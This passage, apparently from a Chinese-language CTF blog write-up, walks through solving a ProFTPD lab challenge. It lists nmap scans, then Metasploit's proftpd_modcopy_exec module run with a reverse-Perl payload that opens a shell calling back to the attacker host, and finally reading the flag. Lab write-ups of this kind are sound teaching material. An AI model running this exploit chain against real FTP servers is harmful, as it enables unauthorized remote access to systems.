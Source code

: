 剩下就是工具使用，如果有寫課堂作業應該知道基本的操作方式..吧XD
參數的設定上 RHOST 目標IP為 nmap 掃出來的 172.30.0.2，SITEPATH 為題目描述的 `/var/www/html/`，這題還需要設定 payloads... 而且並不是每一組 payload 都能成功需要一點運氣，不過數量也不多把 payload 全部戳一遍也蠻快der。
![ ](https://raw.githubusercontent.com/MacacaHub/CTF-writeups/master/HTCF%20CTF/midterm/ProFTPD/pic/03.png)


設定完 payload 後記得要再確認一次 options，把 LHOST 補上"攻擊用主機"，以便打過去的 reverse shell 才能順利彈回來，若攻擊成功就能拿到 FTP Server 的 shell，剩下就是把 flag 撈出來，結束。
![ ](https://raw.githubusercontent.com/MacacaHub/CTF-writeups/master/HTCF%20CTF/midterm/ProFTPD/pic/04.png)



{% codeblock lang:shell 簡單列一下流程 line_number:false %}
$ ifconfig #查看當前主機ip: 172.30.0.3
$ nmap 172.30.0.0/24 #掃區網，找到 FTP 主機(ip 172.30.0.2, port 21)
$ nmap -sV -p 21 172.30.0.2 #查看剛主機細部資訊，發現是ProFTPD 1.3.5


$ msfconsole
msf5 > search ProFTPD 1.3.5
msf5 > use unix/ftp/proftpd_modcopy_exec
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show options
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOST <target_ip>
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH <target_directory>
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set set payload cmd/unix/reverse_perl

msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show options
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST <localhost_ip>
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

(reverse shell)
ls 
ls _backup
cat _backup/f1aaag.txt
{% endcodeblock %}




